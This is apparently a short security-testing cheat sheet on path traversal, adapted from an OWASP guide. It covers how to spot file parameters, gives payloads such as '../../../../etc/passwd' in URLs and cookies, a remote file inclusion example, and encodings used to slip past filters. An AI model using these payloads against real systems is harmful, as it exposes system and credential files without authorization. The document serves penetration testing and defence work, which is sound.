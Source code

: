# Path Traversal

## Step 1 Identify parameters

Identify:

* any request parameters that could be used for file-related operations

`http://example.com/getUserProfile.jsp?item=ikki.html`

* any unusual file extensions

`http://example.com/main.cgi?home=index.htm`

* any interesting variable names

`http://example.com/index.php?file=content`

* cookie used by web application for the dynamic generation of pages 

`Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`

## Step 2 Insert malicious string

For example, for Linux/UNIX, we can insert `../../../../etc/passwd`

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

Cookie example: `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

Includes files and scripts from external website \(remote file inclusion\):

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

To show the source code of a CGI component `http://example.com/main.cgi?home=main.cgi`

## Encoding

URL encode \(once\) Linux

> %2e%2e%2f = ../ %2e%2e/ = ../ ..%2f = ../

Windows:

> %2e%2e%5c = .. %2e%2e = .. ..%5c = ..\

URL encode \(double\) Windows

> %252e%252e%255c = .. ..%255c = ..\

Unicode/UTF-8 Encoding

> ..%c0%af = ../ ..%c1%9c = ..\

## OS/application consideration

Different OS/APIs have different behavior in the parsing of file paths

Source: [https://www.owasp.org/index.php/Testing\_Directory\_traversal/file\_include\_\(OTG-AUTHZ-001\)](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_%28OTG-AUTHZ-001%29)


